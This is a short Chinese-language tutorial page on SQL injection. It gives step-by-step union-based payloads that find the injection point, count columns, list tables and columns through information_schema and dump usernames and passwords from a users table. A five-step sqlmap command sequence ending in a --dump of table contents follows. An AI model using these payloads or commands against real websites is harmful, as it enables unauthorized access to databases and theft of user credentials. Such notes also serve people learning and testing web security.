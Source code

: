 # SQL注入实战

## 判断是否有注入点

and 1=1 / and 1=2 回显不同

and sleep（5）判断页面暂停时间（有则暂停，没有不执行语句

## 步骤

### 寻找注入点（后台代码）

### 测试注入点（and 1=1/and 1=2）

### 测试字段长度(order by 4)

### 监测回显位置(union select 1,2,3,4)

### 进行数据库表，列，列表爆破

#### 获取当前数据库名

```
-1 union select 1,2,database(),4 
```

#### 获取当前数据库表名

```
-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3，4
```

{% hint style="info" %}
information\_schema.tables是mysql存储表数据的表，固定名字
{% endhint %}

#### 获取表中字段名

```
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='上面获取的名字'),3--+
```

{% hint style="info" %}
注意table\_name是上一步获取的名字
{% endhint %}

#### 获取数据

```
-1' union select 1,(select group_concat(id,0x7c,username,0x7c,password) from users),3--+
```

{% hint style="info" %}
id，username，password是上一步获取的名字，0x7c是竖线，from后面是上两步获取的表名
{% endhint %}

## SQLMAP的使用

### 闪退问题解决

1.管理员进入cmd

2.进入python路径以及sqlmap路径

cd python2.7

cd sqlmap

3.使用python sqlmap.py -h执行指令



step1：sqlmap -u \["URL"] //测试是否存在注入&#x20;

step2：sqlmap -u \["URL"] -current-db //查询当前数据库&#x20;

step3：sqlmap -u \["URL"] -D \["数据库名"] --tables //查询当前数据库中的所有表&#x20;

step4：sqlmap -u \["URL"] -D \["数据库名"] -T \["表名"] --columns //查询指定库中指定表的所有列(字段)&#x20;

step5：sqlmap -u \["URL"] -D \["数据库名"] -T \["表名"] -C \["列名"] --dump //打印出指定库中指定表指定列中的字段内容
